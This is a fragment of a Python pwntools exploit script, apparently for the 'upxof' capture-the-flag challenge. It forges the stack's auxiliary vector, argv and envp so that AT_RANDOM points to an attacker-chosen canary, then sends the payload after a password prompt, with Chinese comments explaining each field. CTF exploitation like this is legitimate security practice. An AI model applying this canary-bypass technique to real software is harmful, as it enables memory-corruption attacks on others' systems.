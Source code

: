 ```python
fake_AT_PHNUM_key=5
fake_AT_PLATFORM_key=15
fake_AT_RANDOM_key=25
fake_AT_SECURE_key=23
fake_AT_SYSINFO_EHDR_key=33 
fake_AT_UID_key=11
fake_AT_UNKNOWN26_key=26

fake_AT_BASE_value=0x0
fake_AT_CLKTCK_value=0x64
fake_AT_EGID_value=0x0
fake_AT_ENTRY_value=0x400988
fake_AT_EUID_value=0x0
#fake_AT_EXECFN_value="/root/Canary_User_Mode/ctf2/upxof"
fake_AT_EXECFN_value=0xdeadbeef    #任意值，无需为指针
fake_AT_FLAGS_value=0x0
fake_AT_GID_value=0x0
fake_AT_HWCAP_value=0xf8bfbff
fake_AT_NULL_value=0x0
fake_AT_PAGESZ_value=0x1000
fake_AT_PHDR_value=0x400040
fake_AT_PHENT_value=0x38
fake_AT_PHNUM_value=0x2
#fake_AT_PLATFORM_value="x86_64"
fake_AT_PLATFORM_value=0xdeadbeef  #任意值，无需为有效指针
fake_AT_RANDOM_value=0x601100      #fake_canary：必须为有效指针，指针指向的值为canary
fake_AT_SECURE_value=0x0
fake_AT_SYSINFO_EHDR_value=0x7ffff7ffd000  #必须为有效指针，指针指向的值可以为0
fake_AT_UID_value=0x0
fake_AT_UNKNOWN26_value=0x0

fake_auxv=""
#fake_auxv+=p64(fake_AT_SYSINFO_EHDR_key)+p64(fake_AT_SYSINFO_EHDR_value) #为了方便对照，这里采用与stack上AUXV相同的顺序
#fake_auxv+=p64(fake_AT_HWCAP_key)+p64(fake_AT_HWCAP_value)               
#fake_auxv+=p64(fake_AT_PAGESZ_key)+p64(fake_AT_PAGESZ_value)
#fake_auxv+=p64(fake_AT_CLKTCK_key)+p64(fake_AT_CLKTCK_value)
fake_auxv+=p64(fake_AT_PHDR_key)+p64(fake_AT_PHDR_value)
fake_auxv+=p64(fake_AT_PHENT_key)+p64(fake_AT_PHENT_value)
fake_auxv+=p64(fake_AT_PHNUM_key)+p64(fake_AT_PHNUM_value)
#fake_auxv+=p64(fake_AT_BASE_key)+p64(fake_AT_BASE_value)
#fake_auxv+=p64(fake_AT_FLAGS_key)+p64(fake_AT_FLAGS_value)
fake_auxv+=p64(fake_AT_ENTRY_key)+p64(fake_AT_ENTRY_value)
#fake_auxv+=p64(fake_AT_UID_key)+p64(fake_AT_UID_value)
#fake_auxv+=p64(fake_AT_EUID_key)+p64(fake_AT_EUID_value)
#fake_auxv+=p64(fake_AT_GID_key)+p64(fake_AT_GID_value)
#fake_auxv+=p64(fake_AT_EGID_key)+p64(fake_AT_EGID_value)
#fake_auxv+=p64(fake_AT_SECURE_key)+p64(fake_AT_SECURE_value)
fake_auxv+=p64(fake_AT_RANDOM_key)+p64(fake_AT_RANDOM_value)
#fake_auxv+=p64(fake_AT_UNKNOWN26_key)+p64(fake_AT_UNKNOWN26_value)
#fake_auxv+=p64(fake_AT_EXECFN_key)+p64(fake_AT_EXECFN_value)
#fake_auxv+=p64(fake_AT_PLATFORM_key)+p64(fake_AT_PLATFORM_value)
fake_auxv+=p64(0)*2              #auxv需要以NULL（AT_NULL）结尾，给一个p64(0)即可

fake_argc=p64(0x1)               #在写入shellcode之前，地址0x601100存放的值为零
fake_argv=p64(0x601100)+p64(0)   #必须为有效指针，指针指向的值可以为0
fake_envp=p64(0x601100)*28+p64(0)#必须为有效指针，指针指向的值可以为0
                                 #envp在原内存中有28个成员(以\x00结尾)，但这不是固定的，在伪造时可以为任意数量
                                 #只要别太离谱就行（感兴趣可以自己分析分析）
payload1='12345678'+p64(0)*14+fake_argc+fake_argv+fake_envp+fake_auxv #“12345678”过password验证
p.recvuntil("password:")
#gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload1)
```